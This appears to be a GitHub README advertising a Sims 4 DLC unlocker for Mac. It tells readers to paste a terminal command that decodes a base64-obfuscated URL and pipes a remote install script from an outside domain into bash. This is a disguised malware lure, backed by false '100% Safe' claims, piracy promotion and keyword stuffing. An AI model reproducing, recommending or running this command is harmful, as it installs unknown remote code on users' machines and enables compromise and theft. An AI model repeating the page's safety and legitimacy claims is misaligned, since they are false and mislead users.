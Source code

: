 # The Sims 4 Mac DLC Unlocker - Unlock All Expansions & Packs

![The Sims 4 DLC Showcase](https://i.ytimg.com/vi/as8qKJoheUk/hq720.jpg)

---

### 🔽 Download The Sims 4 Full DLC Collection

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

---

## What is The Sims 4 Complete DLC Unlocker for Mac?

The Sims 4 Complete DLC Unlocker for macOS is the ultimate gateway to endless creativity in EA's life simulation masterpiece. This powerful tool transforms your base game into the definitive Sims 4 experience by granting instant access to every piece of additional content ever released - all expansions, game packs, and stuff packs become yours without restrictions.  

Designed specifically for Mac users (including M1/M2 chips), this solution bypasses EA's paywalls while preserving your existing saves and mods. Experience all 12 expansion worlds, supernatural powers from Realm of Magic, the university journey from Discover University, and thousands of build/buy items - all seamlessly integrated into your game as if officially purchased.  

The unlocker works magically in the background without modifying original game files or requiring additional launchers. It's perfect for storytellers who want complete creative freedom, builders craving all architectural items, and players who wish to explore every gameplay feature EA has developed since 2014.  

![The Sims 4 DLC Worlds](https://media.karousell.com/media/photos/products/2021/6/29/origin__steam_the_sims_4_all_d_1624951234_56603abf_progressive.jpg)

---

## Key Features & Benefits

- 🌟 **All 12 Expansion Packs** - From Seasons to Growing Together  
- 🧙 **Occult Gameplay** - Vampires, Spellcasters & Werewolves unlocked  
- 🏫 **Premium Experiences** - University, Fame, Eco Living & more  
- 🛋️ **Thousands of Items** - Every stuff pack (Tiny Living, Paranormal etc.)  
- ⚡ **M1/M2 Optimized** - Runs flawlessly on Apple Silicon  
- 🔒 **100% Safe** - No account risks or file modifications  

Transform your Sims 4 into the ultimate life simulation sandbox with all DLC content appearing as legitimately owned in your game.  

---

## 🔍 Keywords
  
The Sims 4 Mac DLC, The Sims 4 Mac DLC Unlocker, sims 4 complete collection mac, sims 4 all dlc unlock mac, sims 4 premium edition macos, sims 4 full content mac, sims 4 m1/m2 dlc access, sims 4 complete experience, sims 4 unrestricted mac version, The Sims 4 DLC for Mac, The Sims 4 DLC Mac Download, The Sims 4 DLC for Mac Download, The Sims 4 DLC Mac, The Sims 4 DLC Download Mac, The Sims 4 DLC Download for Mac, The Sims 4 DLC full version, Mac Download The Sims 4 DLC, Download Mac The Sims 4 DLC, Download The Sims 4 DLC Mac, Download The Sims 4 DLC for Mac
